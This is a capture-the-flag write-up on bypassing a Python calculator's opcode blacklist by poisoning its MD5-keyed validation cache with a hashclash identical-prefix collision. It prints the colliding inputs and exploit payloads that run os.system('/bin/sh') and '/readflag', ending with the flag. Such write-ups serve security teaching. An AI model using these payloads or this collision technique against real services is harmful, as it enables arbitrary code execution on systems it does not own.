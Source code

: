 # Service

Checking the service, it is a calculator in Python.

![](screenshots/1.png)

It has some validation and caching that validation. Running the same code has a hit for the validation.
Some (most) opcodes are blacklisted, only a few of them are allowed, probably using the [dis](https://docs.python.org/3/library/dis.html).

![](screenshots/2.png)

Basically only literals and variables (where the locals/globals scope is empty) are allowed, nothing that would call a function.

# MD5 Collision

From the length of the hash, it is md5. Checking `md5("1+1")` is exactly the used `d96e018f51ea61e5ff2f9c349c5da67d`.

The md5 hash worsk with blocks (64 bytes). If we have a colliding block pair, appending the same to the both of them results in the same (new) hash.

If we can generate a valid code and a different malicious one, we can bypass the check.

# Hash clash

The [hashclash](https://github.com/cr-marcstevens/hashclash) projects is a low level tool to generate certain types of collisions.

There is an option for [Create you own text identical-prefix collision](https://github.com/cr-marcstevens/hashclash?tab=readme-ov-file#create-you-own-text-identical-prefix-collision).

## Example

Example:

```
md5("TEXTCOLLBYfGiJUETHQ4hAcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak")
=
md5("TEXTCOLLBYfGiJUETHQ4hEcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak")
```

- Create temporary working directory

  `mkdir textcoll_workdir`

  `cd textcoll_workdir`

- Run script

  `../scripts/textcoll.sh`

- Edit the script for more options: change alphabet, force specific bytes, etc...

## Generator script

The `scripts/textcoll.sh` generator script has a bunch of constraints well commented.

 * First block: 
   - byte21 has a +4 difference: you must ensure that this difference is possible in the alphabet, e.g., have both A and E(=A+4)
 * Second block: 
   - keep the alphabet of bytes 0-7 large: otherwise there could be no solutions
   - keep the alphabet of bytes 56-63 large: to make the search fast

## The idea

The biggest constraint is the biggest opportunity as well. The 4 difference for byte21 can basically flip a character. My choice was `#` to `'` as the difference between their ascii code is exactly 4.

For the valid calc: concatenating a bytestring to a variable is a valid opcode, and the comment is simply ignores everything afterwards.

For the malicious part: concatenating 2 bytestrings then concatenating more with arbitrary function calls is perfectly good.

```
b' ... '+b# ... '+evil_code
b' ... '+b' ... '+evil_code
```

The only caveat is that it should include only valid characters for the literal and a closing quote should not be present. Luckily enough, nothing such occured.

## Execution

Changing the following was enough. The second block had no restriction at all.

```bash
FIRSTBLOCKBYTES="--byte0 b --byte1 \"'\" --byte18 \"'\"  --byte19 \"+\" --byte20 \"b\" --byte21 \"'#\""
SECONDBLOCKBYTES=''
```

Original [textcoll.sh](workdir/scripts/textcoll.sh) and the [textcoll-mod.sh](workdir/scripts/textcoll-mod.sh) modified one.

![](screenshots/3.png)


```bash
../scripts/textcoll-mod.sh
```

Took around 70 minutes to find a collision.

```
========= final_collision1.txt ==========
b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q

========= final_collision2.txt ==========
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q
```

```
0ac8514c4fef27c2269938b257e7c609 *final_collision1.txt
0ac8514c4fef27c2269938b257e7c609 *final_collision2.txt
```

They only differ at the crucial comment/quote position.

# Exploit

```
b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+print('pwned')
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+print('pwned')

b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/bin/sh')
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/bin/sh')
```

After looking around, there is a `readflag` binary in the root.

```
b"^oF@2..jL&fWs~XO"+b#p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/readflag')
b"^oF@2..jL&fWs~XO"+b'p2OTzkBzS5FAH@D~yF7P~Ri,UuM3wxsj#:quB^zAWieBBR1xD+ihW:;-N3~^PRoYx2CqXrtBxGi4YMp58iPFec8Zk@_clc####:###W1:Q'+__import__('os').system('/readflag')
```

![](screenshots/4.png)

# Flag
`CTF{Ca$4_f0r_d3_C4cH3_Ha5hC1a5h}`